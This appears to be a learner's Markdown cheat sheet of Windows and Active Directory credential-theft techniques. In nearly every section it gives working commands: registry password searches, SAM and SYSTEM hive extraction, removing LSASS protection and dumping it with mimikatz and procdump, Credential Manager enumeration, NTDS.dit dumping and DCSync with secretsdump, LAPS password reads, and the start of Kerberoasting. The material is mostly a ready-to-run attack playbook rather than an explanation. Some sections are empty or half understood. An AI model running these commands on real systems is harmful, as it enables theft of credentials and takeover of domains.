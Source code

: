 # 1-Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# 2-Key Logging

# 3-SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
    ### how to Dump:
    - 1-MetaSploit.hashdump
    - 2-Microsoft Volume shadow copy:
        ```
        wmic shadowcopy call create Volume='C:\'
        #find where it is stored
        vssadmin list shadows
        copy \\path\to\volume\sam  \\somewhere-Else
        copy \\path\to\volume\\system \\soemwhere-Else
        ```
# 4-Registry Hives:
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
#Extract
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

# 5-Dump LSASS(cached credentials):
  - **Protected LSASS**:
    - disable from Registry:
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    ```
    - disable with mimikatz:
    ```
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    ```

  - 5.1-Using GUI with Task-Manager
  - 5.2-Using procdump
  ```
  procdump.exe -accepteula -ma lsass.exe c:\<somewhere>
  ```
  - 5.3-mimikatz
  ```
  mimikatz # sekurlsa::logonpasswords
  ```
  
# 6-Windows Credential Manager:
  - Stored Credentials in system:
  ```
  vaultcmd /list
  VaultCmd /listproperties:"Web Credentials"
  VaultCmd /listcreds:"Web Credentials"
  VaultCmd /listproperties:"Windows Credentials"
  VaultCmd /listcreds:"Windows Credentials"
  cmdkey /list
  runas /savecred /user:<Domain>\Username cmd.exe
  mimikatz # sekurlsa::credman
  ```
    - The VaultCmd is not able to show the password. we can use this tools [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
      ```
      Import-Module C:\Tools\Get-WebCredentials.ps1
      Get-WebCredentials
      ```
# 7-NTDS:
  - **Local**:
    - we need the following files:
        - C:\Windows\NTDS\ntds.dit
        - C:\Windows\System32\config\SYSTEM
        - C:\Windows\System32\config\SECURITY
    - with Powershell:
    ```
    #Dump
    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
    #Extract
    secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
    ```
  - **Remote(DCSync)**:
    ```
    #dump NTDS
    lsadump::dcsync /domain:<DomainName> /all
    #Extract just NTDS data
    secretsdump.py -just-dc <DomainName>/<AD_Admin_User>@MACHINE_IP 
    #Extract NTLM hashes
    secretsdump.py -just-dc-ntlm <DomainName>/<AD_Admin_User>@MACHINE_IP
    ```
# 8-LAPS(im not understand it completely):
- GPP:
  - **Microsoft implemented a method to change local administrator accounts across workstations using Group Policy Preferences (GPP)**
  - GPP is a tool that allows administrators to create domain policies with embedded credentials.
  - Once the GPP is deployed, different XML files are created in the SYSVOL folder.
  - The issue was the GPP relevant XML files contained a password encrypted using AES-256 bit encryption, but Microsoft somehow published its private key
  - Since Domain users can read the content of the SYSVOL folder, it becomes easy to decrypt the stored passwords
- LAPS:
   - LAPS uses **admpwd.dll** to change the local administrator password and update the value of **ms-mcs-AdmPwd**
   - **ms-mcs-AdmPwd** attribute **contains** a clear-text **password** of the local administrator
   ```
   #check if LAPS is installed or not
   dir "C:\Program Files\LAPS\CSE"
   #check the available commands to use for AdmPwd cmdlets 
   Get-Command *AdmPwd*
   #find the right OU
   Find-AdmPwdExtendedRights -Identity *
   #login to proper user and:
   Get-AdmPwdPassword -ComputerName <computerName>
   ```
# 9-Kerberoasting:
  - In order for this attack to work, an adversary must have access to SPN (Service Principal Name) accounts such as IIS User, MSSQL, etc. The Kerberoasting attack involves requesting a Ticket Granting Ticket (TGT) and Ticket Granting Service (TGS).
  ```
  #look for SPN
  impacket/examples/GetUserSPNs.py -dc-ip MACHINE_IP <DomainName>/User
  #we can send a single request to get a TGS ticket for the target user that has SPN
  
  ```
